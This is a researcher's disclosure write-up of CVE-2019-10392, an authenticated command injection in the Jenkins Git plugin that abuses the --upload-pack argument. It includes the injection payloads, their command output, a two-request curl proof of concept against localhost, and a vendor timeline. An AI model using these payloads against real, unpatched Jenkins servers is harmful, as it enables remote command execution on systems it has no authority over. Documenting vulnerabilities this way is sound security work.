




_**Sep 12, 2019**_

## CVE-2019-10392 — Yet Another 2k19 Authenticated Remote Command Execution in Jenkins

Two weeks ago I saw on GitHub a [nice repository about pentesting Jenkins](https://github.com/gquere/pwn_jenkins). I downloaded the latest alpine LTS build from Docker Hub and I started to play with it, ending up finding an authenticated Remote Command Execution by having an user with the `Job\Configure (USE_ITEM)` privilege. 🐱‍👤

## Discovery

I launched a Jenkins instance locally with Docker using the following command:

```bash
docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:lts-alpine
```

In my case, the software versions are:

1. Jenkins 2.176.3
2. Git Client Plugin 2.8.2
3. Git Plugin 3.12.0

I proceed through the initial configuration and created a non administrative user.



After logging in as user `test`, we create a new job definition via the web user interface.
If we select in the SCM section Git as our source, we are asked to insert a Git URL.

Let's fuzz it! 🤖

If we try common command injection payloads, we noticed that we can't execute arbitary commands, but if we input the string `-v` as URL, we will receive the following output:

```text
Failed to connect to repository : Command "git ls-remote -h -v HEAD" returned status code 129:
stdout:
stderr: error: unknown switch `v'
usage: git ls-remote [--heads] [--tags] [--refs] [--upload-pack=<exec>]
                     [-q | --quiet] [--exit-code] [--get-url]
                     [--symref] [<repository> [<refs>...]]

    -q, --quiet           do not print remote URL
    --upload-pack <exec>  path of git-upload-pack on the remote host
    -t, --tags            limit to tags
    -h, --heads           limit to heads
    --refs                do not show peeled tags
    --get-url             take url.<base>.insteadOf into account
    --sort <key>          field name to sort on
    --exit-code           exit with exit code 2 if no matching refs are found
    --symref              show underlying ref in addition to the object pointed by it
    -o, --server-option <server-specific>
                          option to transmit
```



We have just discovered that command line switches are interpreted correctly by Git, thanks to the ```error: unknown switch `v'``` message.

Can we do more than printing the Git usage? Let's find it out! 🕵️

## Exploitation

I looked at `man git-ls-remote` in order to see the available command options and I noticed the `--upload-pack=<exec>` flag. By trying `--upload-pack=id`, I got:

```text
Failed to connect to repository : Command "git ls-remote -h --upload-pack=id HEAD" returned status code 128:
stdout:
stderr: id: ‘HEAD’: no such user
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```

The command `id HEAD` was executed on the system! 🤹‍

We can control the full command being executed using the following payload: ```--upload-pack="`id`"```

```text
Failed to connect to repository : Command "git ls-remote -h --upload-pack="`id`" HEAD" returned status code 128:
stdout:
stderr: "`id`" 'HEAD': line 1: uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins): not found
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```



We successfully executed the `id` command in the context of the `jenkins` user! 💥

## Proof of Concept

First we need to retrieve the CSRF Token and then issue the request:

1. get crumb

```bash
curl 'http://localhost:8080/securityRealm/user/test/crumbIssuer/api/xml?xpath=concat(//crumbRequestField,":",//crumb)' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36' -H 'DNT: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: http://localhost:8080/' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' -H 'Cookie: <COOKIES>' --compressed
```

2. send request

```bash
curl 'http://localhost:8080/job/test/descriptorByName/hudson.plugins.git.UserRemoteConfig/checkUrl' -d "value=--upload-pack=`touch /tmp/iwantmore.pizza`" -H 'Cookie: <COOKIES>' -H 'Origin: http://localhost:8080' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' -H 'X-Prototype-Version: 1.7' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'Jenkins-Crumb: <CRUMB>' -H 'Pragma: no-cache' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36' -H 'Content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: text/javascript, text/html, application/xml, text/xml, */*' -H 'Cache-Control: no-cache' -H 'Referer: http://localhost:8080/job/test/configure' -H 'DNT: 1' --compressed
```



## Reporting

I reported the issue to the [Jenkins JIRA](https://issues.jenkins-ci.org/browse/SECURITY-1534) and in less than one week the vulnerability was confirmed to be fixed in the staging environment.

Props to the Jenkins team for how they managed the responsible disclosure process, in particular to [Daniel Beck](https://twitter.com/danielbeck) and [Mark Waite](https://twitter.com/MarkEWaite). 👏

## Timeline

- _2019-09-03_: vulnerability discovered
- _2019-09-03_: vulnerability reported
- _2019-09-04_: first response by the vendor
- _2019-09-04_: vulnerability acknowledged
- _2019-09-07_: fix available
- _2019-09-08_: fix confirmed
- _2019-09-08_: [CVE-2019-10392](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10392) was issued
- _2019-09-11_: [pre announcement](https://groups.google.com/forum/#!msg/jenkinsci-advisories/F6vzBKHl-Wo/nQy-VA_YAAAJ)
- _2019-09-12_: [@TheHackersNews tweet](https://twitter.com/TheHackersNews/status/1172022127752445952)
- _2019-09-12_: [fix released and public announcement](https://jenkins.io/security/advisory/2019-09-12/)

[back](../)
